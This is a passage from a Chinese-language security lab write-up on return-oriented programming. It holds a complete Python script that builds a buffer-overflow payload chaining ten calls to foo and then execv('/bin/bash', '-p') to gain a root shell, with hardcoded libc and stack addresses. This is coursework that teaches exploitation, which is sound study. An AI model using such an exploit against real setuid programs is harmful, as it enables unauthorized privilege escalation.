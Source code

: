 截图：

![image-20220407133646082](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244712.png)



## Part C: ROP

### Task 5: Return-Oriented Programming

首先找到`foo`的地址，调用10次foo就是在栈上填10次foo的地址覆盖return address：

![image-20220407140631049](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244765.png)

之后的步骤同task4，在执行10次foo结束后，用`execv()`的地址覆盖第10次`foo`的return address，之后同理，可以获取root权限：

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# 填10*foo
A = 0x1c
foo_address = 0x565562b0
for i in range(0,10):
    content[A:A+4] = (foo_address).to_bytes(4,byteorder='little')
    A=A+4

Y = 0x1c+40
system_addr = 0xf7e91690   # The address of execv()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0x1c+4+40
exit_addr = 0xf7dfc0d0     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

X = 0x1c+8+40
sh_addr = 0xffffd3e8       # The address of "/bin/bash"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

A=0x1c+12+40
argv_addr=0xffffcd80+0x120     # The address of argv[] in main
content[A:A+4] = (argv_addr).to_bytes(4,byteorder='little')

B=0x120
argv_addr=0xffffd3e8     # The address of argv[0](address of "/bin/bash") in main
content[B:B+4] = (argv_addr).to_bytes(4,byteorder='little')

C=0x120+4
argv_addr=0xffffd4ac     # The address of argv[1](address of "-p") in main
content[C:C+4] = (argv_addr).to_bytes(4,byteorder='little')

D=0x120+8
content[D:D+4] = (0x0).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

![image-20220407141746914](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244374.png)

